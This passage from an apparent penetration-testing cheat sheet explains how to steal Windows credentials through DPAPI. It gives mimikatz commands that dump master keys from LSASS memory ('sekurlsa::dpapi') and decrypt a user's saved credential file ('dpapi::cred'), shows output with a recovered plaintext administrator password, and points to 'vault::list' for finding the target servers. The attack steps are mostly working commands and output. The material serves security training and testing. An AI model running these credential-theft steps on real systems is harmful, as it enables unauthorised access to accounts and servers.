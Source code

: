 ```powershell
d7a174e45f0fd942118a7a6fde4e050c7840d92b12412ade0214bccacbf3244bc60c1f14c3788385
864964077c7de7af0fdf48d86c17c9c816c25b4f7640767800dffb065b94c8a7e5c266ec6b440d8c
955698216cf703b76b2eea4d635e626611bd0a6e4e1ac43156cdbed5cf5ad825674517a8ee2a6984
ba76a29c1dbc5b455c279e0943c66e11e2235b0ec8e5691b38a2ed3f338fc820a58f0cada97e6abf
7b42dfd1d66b5269df7df8e52469913c733de9bde8a897d891ce76d08f3eaa81ad17c50822234fc2
dwSignLen : 00000014 - 20
pbSign : 95878397a80705153796372206f26b6b4e877e62
```

The noteworthy fields here are `pbData` and `guidMasterKey` - a simplistic way to look at it, is that ==pbData is the data we want to decrypt== and ==guidMasterKey is the key needed to do so==.

This `guidMasterKey` can also be obtained via an `LSASS Cache` , as well as the required `MasterKey` :

```powershell
mimikatz !sekurlsa::dpapi
```

You should get a 129 character string as masterkey associated with the GUID you found in the previous step.

```powershell
[00000003]
* GUID : {7dc6a492-36e2-4c2d-be66-ba29d263dda2}
* Time : 17/06/2020 08:14:53
* MasterKey :
dcd70638e50e3bcec7cd7fb888399748fea41f9bb137a72a13c98e30ee64469e27a03083256e51f04051a427da9b8c34520fad6c8a486c3f6043ea959026670c
* sha1(key) : 501b8718e58df3aaca9db02591ead5a29d4d6a42
```

Proceed by using the masterkey to decrypt the credentials -

```powershell
mimikatz dpapi::cred /in:C:\Users\napster\AppData\Local\Microsoft\Credentials\936A68B5AC87C545C4A22D1AF264C8E9 /masterkey:dcd70638e50e3bcec7cd7fb888399748fea41f9bb137a72a13c98e30ee64469e27a03083256e51f04051a427da9b8c34520fad6c8a486c3f6043ea959026670c
```

The username and plaintext password should be printed -

```powershell
UserName       : LAN\username_adm
CredentialBlob : Sup3rAw3s0m3Passw0rd!
```

Use `vault::list` to figure out what boxes the credentials belong to. Often they are to specific servers.

### ## <mark style="background: #3D7EFFA6;">Master Keys</mark> - 

The DPAPI keys used for encrypting the user's RSA keys are stored under `C:\Users\[USER]\AppData\Roaming\Microsoft\Protect\{SID}\` directory, where {SID} is the [**Security Identifier**](https://en.wikipedia.org/wiki/Security_Identifier) **of that user**. **The DPAPI key is stored in the same file as the master key that protects the users private keys**. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it using `dir` from the cmd, but you can list it from PS).
